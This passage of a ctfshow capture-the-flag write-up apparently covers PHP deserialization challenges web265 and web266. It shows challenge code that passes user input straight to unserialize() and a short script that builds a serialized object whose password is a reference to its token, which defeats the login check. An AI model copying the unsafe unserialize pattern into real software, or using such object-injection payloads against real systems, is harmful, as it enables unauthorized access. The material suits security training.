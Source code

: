 ```php
    public function login(){
        return $this->token===$this->password;
    }
}

$ctfshow = unserialize($_GET['ctfshow']);
$ctfshow->token=md5(mt_rand());

if($ctfshow->login()){
    echo $flag;
}
```

```php
<?php
class ctfshowAdmin{
    public $token=1;
    public $password=1;


    public function login(){
        return $this->token===$this->password;
    }
}
$a = new ctfshowAdmin();
$a->password=&$a->token;  //用引用
echo urlencode(serialize($a));
```

## web266

```php
<?php

highlight_file(__FILE__);

include('flag.php');
$cs = file_get_contents('php://input'); //文件包含可使用伪协议


class ctfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function login(){
        return $this->username===$this->password;
    }
    public function __toString(){
        return $this->username;
    }
    public function __destruct(){
        global $flag;
        echo $flag;
    }
}
$ctfshowo=@unserialize($cs);
if(preg_match('/ctfshow/', $cs)){
    throw new Exception("Error $ctfshowo",1);
}
```
